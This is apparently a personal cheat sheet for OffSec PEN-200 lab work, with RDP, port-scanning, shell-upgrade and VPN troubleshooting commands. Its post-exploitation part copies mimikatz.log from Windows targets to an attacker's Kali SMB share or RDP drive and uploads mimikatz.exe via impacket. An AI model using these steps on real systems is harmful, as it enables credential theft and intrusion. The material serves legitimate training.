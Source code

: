 Keep the script for future references 

1. Get new ip address
```
kali - dhclient

windows - ipconfig /renew
```

2. To kill busy listening port 
```
sudo lsof -i :<Port number> #list pid 
ps aux | grep smb

kill -9 <pid>
```

3. Remote connection 
```

xfreerdp /cert-ignore /compression /auto-reconnect /u:USERNAME /p:PASSWORD /v:IP_ADDRESS

sudo rdesktop -u USERNAME -p PASSWORD -g 90% -r disk:local="/home/kali/Desktop/" IP-ADDRESS

rdesktop -u USERNAME -p PASSWORD -a 16 -P -z -b -g 1280x860 IP_ADDRESS

 xfreerdp /u:USERNAME /p:PASSWORD /cert:ignore /v:IP_ADDRESS /w:2600 /h:1400

xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:IP_ADDRESS /u:USERNAME /p:PASSWORD /size:1180x708

rdesktop -z -P -x m -u USERNAME -p PASSWORD
```

4. Delete full directory. 
```
rm -r .wine/
```

5. Dependencies packages error solution
```
https://linuxsimply.com/linux-basics/package-management/dependencies/the-following-packages-have-unmet-dependencies/
```

6. File transfer cheatsheet
```
https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/
```

7. Hacktricks if running out of ideas. 
```
https://book.hacktricks.xyz/
```

8. Rustscan instead of nmap
```
1. Scan open ports. 
rustscan -a 192.168.187.122 --ulimit 5000

2. Nano and paste open ports - open-ports.txt

3. List down open ports in one line with comma. 
cat open-ports.txt | cut -f1 -d '/' | tr '\n' ','

4. Or straight can scan with nmap
nmap -p$(cat open-ports.txt | cut -f1 -d '/' | tr '\n' ',') -T4 -A $ip 

5. Decrease mtu rate if needed 
ifconfig tun0 mtu 1250

```

9. Allocating IP. 
```
export ip=10.10.10.10
echo $ip
```

10. Alternative for gobuster 
```
feroxbuster -u http://$ip/
```

11. Upgrade shells to full tty
```
https://0xffsec.com/handbook/shells/full-tty/

SHELL=/bin/bash script -q /dev/null

python -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo && fg

For windows:
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

12. Machine not working
```
Can you try to do the following to resolve your issue

disconnect from your VPN and run the command "sudo killall -w openvpn"
logout from your Portal and clear your browsers data and cache
please also run the commands below

sudo bash -c " echo nameserver 8.8.8.8 > /etc/resolv.conf"
sudo bash -c " echo nameserver 8.8.4.4 >> /etc/resolv.conf"
sudo chattr +i /etc/resolv.conf

download a new VPN pack (make sure that you are on your Course Page and not on the Main Page) and make sure to delete all the old VPN's

Once done, please try to reconnect to your VPN and see how it goes.
```


1) SMB: On Kali:

`impacket-smbserver test . -smb2support  -username kourosh -password kourosh`

On Windows:

`net use m: \\Kali_IP\test /user:kourosh kourosh copy mimikatz.log m:\`

2) RDP mounting shared folder:

- Using xfreerdp:

On Kali:

`xfreerdp /cert-ignore /compression /auto-reconnect /u: offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen- 200`

On windows:

`copy mimikatz.log \\tsclient\test\mimikatz.log`


- Using rdesktop:

On Kali:

`rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200`

On Windows:

`copy mimikatz.log \\tsclient\test\mimikatz.log`

3) Impacket tools: psexec and wmiexec are shipped with built in feature for file transfer. **Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path. Uploading mimikatz.exe to the target machine:

`C:\Windows\system32> lput mimikatz.exe [*] Uploading mimikatz.exe to ADMIN$\/ C:\Windows\system32> cd C:\windows C:\Windows> dir /b mimikatz.exe mimikatz.exe`

Downloading mimikatz.log:

`C:\Windows> lget mimikatz.log [*] Downloading ADMIN$\mimikatz.log`


### Remove empty lines form a file. 
```bash
sed -z '$ s/\n$//'
```
